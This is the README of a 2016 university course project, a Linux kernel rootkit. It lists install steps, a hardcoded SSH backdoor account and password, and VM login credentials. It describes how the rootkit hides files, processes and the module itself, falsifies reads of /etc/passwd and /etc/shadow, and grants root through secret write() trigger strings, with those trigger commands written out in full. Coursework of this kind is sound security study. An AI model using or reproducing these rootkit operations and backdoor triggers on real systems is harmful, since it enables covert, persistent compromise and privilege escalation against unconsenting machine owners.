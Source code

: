 /**********************************************************************************
 
 *	Last Updated: Nov 27, 2016
 *	CSE509 System Security Fall 2016
 *	Written By:
 
 		Edwin Yan (edyan@cs.stonybrook.edu)
 		Rashmi Makheja (rmakheja@cs.stonybrook.edu)
 		Sagar Shah (schshah@cs.stonybrook.edu)
 		Vasia Patov (vpatov@cs.stonybrook.edu) 
 *	Project: Rootkit
 
 **********************************************************************************/
 
 System Specification:
	
		This project is built and tested on ubuntu 12.04 having kernel version 3.2.0-115-generic-pae
		
VM ova: https://goo.gl/zjEnPb
Username : iambate
Password : rootkit1337

Backdoor account:
username : rtry
password : rashmi

Steps to install rootkit:

	1) build the kernel, install modules and reboot the system
	2) cd /home/iambate/sys_sec/1337rootkit
		go to the rootkit folder(assuming the rootkit source is in this folder)
	3) sudo make 
		build the module
	4) sudo insmod 1337Rootkit.ko 
		installs the rootkit module


Illustrations of the basic requirements:

	1) Hide specific files and directories from showing up when a user does "ls" and similar commands
		i)ls
		ii)lsmod
			 rootkit module and files that have '1337' in their name will be hidden
			 
	2) Modify the /etc/passwd and /etc/shadow file to add a backdoor account while returning the original contents of the 		files (pre-attack) when a normal user requests to see the file
		i) sudo cat /etc/passwd
		ii) sudo cat /etc/shadow
			the above two files should not show content related to user 'rtry'(the backdoor account)
		iii) sudo useradd testrootkit509
		iv) sudo passwd testrootkit509
		v) sudo login (login with the newly added user and passwd created in previous step)
		vi) id
		vii)exit
	
	3) Hides processes from the process table when a user does a "ps"
		i) ps
	
	4) Give the ability to a malicious process to elevate its uid to 0 (root) upon demand
		i)setuid 

Steps To remove rootkit:
	
	i) python -c 'import os; os.write(2, "1337show")'
	ii) sudo rmmod -f 1337rootkit.ko

Additional considerations:

	1) No difference in response time of any operation
	2) Selective hijacking for read so that attacker can log in using the backdoor account
	3) Attacker can login through SSH using the backdoor account
	3) Secret methods to hide/unhide rootkit:
		i) echo "The secret way to unhide rootkit is as follows:"
		   python -c 'import os; os.write(2, "1337show")'
		   echo "The rootkit appears"
		   lsmod |grep rootkit
		ii) echo "The secret way to hide it again"
		    python -c 'import os; os.write(2, "1337hide")'
		    lsmod |grep rootkit
		iii) echo "Some normal non-root user"
		     id
		iv) python -c 'import os; os.system("/bin/bash")'
		    id
		v) echo "One secret to get elevate root privileges is as follow:"
		   python -c 'import os; os.write(2, "1337root"); os.system("/bin/bash")'
		   id
		   echo "Congratulations You are root"
		   exit
		vi) echo "Lets try to uninstall the module"
		    sudo rmmod -f 1337rootkit.ko
		vii) echo "User cannot uninstall unless he knows the secret"
		     python -c 'import os; os.write(2, "1337show")'
		     sudo rmmod -f 1337rootkit.ko

Assumptions:

	1) passwd file assumed to be at max 4kb
	2) rootkit is assumed to be present on the victim's system
	
	
